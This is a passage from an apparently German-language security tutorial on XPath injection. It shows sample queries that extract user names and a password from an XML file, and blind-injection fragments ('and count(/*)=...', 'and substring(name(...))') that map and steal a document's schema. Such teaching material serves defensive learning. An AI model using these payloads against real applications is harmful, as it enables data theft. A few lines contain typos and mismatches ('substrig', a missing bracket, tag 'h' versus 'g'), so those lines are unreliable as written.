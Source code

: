 ```xml
<account>regular</account>
</user>
</data>
```
### Greifen Sie auf die Informationen zu
```
All names - [pepe, mark, fino]
name
//name
//name/node()
//name/child::node()
user/name
user//name
/user/name
//user/name

All values - [pepe, peponcio, admin, mark, ...]
//user/node()
//user/child::node()


Positions
//user[position()=1]/name #pepe
//user[last()-1]/name #mark
//user[position()=1]/child::node()[position()=2] #peponcio (password)

Functions
count(//user/node()) #3*3 = 9 (count all values)
string-length(//user[position()=1]/child::node()[position()=1]) #Length of "pepe" = 4
substrig(//user[position()=2/child::node()[position()=1],2,1) #Substring of mark: pos=2,length=1 --> "a"
```
### Identifizieren & Stehlen des Schemas
```python
and count(/*) = 1 #root
and count(/*[1]/*) = 2 #count(root) = 2 (a,c)
and count(/*[1]/*[1]/*) = 1 #count(a) = 1 (b)
and count(/*[1]/*[1]/*[1]/*) = 0 #count(b) = 0
and count(/*[1]/*[2]/*) = 3 #count(c) = 3 (d,e,f)
and count(/*[1]/*[2]/*[1]/*) = 0 #count(d) = 0
and count(/*[1]/*[2]/*[2]/*) = 0 #count(e) = 0
and count(/*[1]/*[2]/*[3]/*) = 1 #count(f) = 1 (g)
and count(/*[1]/*[2]/*[3]/[1]*) = 0 #count(g) = 0

#The previous solutions are the representation of a schema like the following
#(at this stage we don't know the name of the tags, but jus the schema)
<root>
<a>
<b></b>
</a>
<c>
<d></d>
<e></e>
<f>
<h></h>
</f>
</c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a>` is "a"
```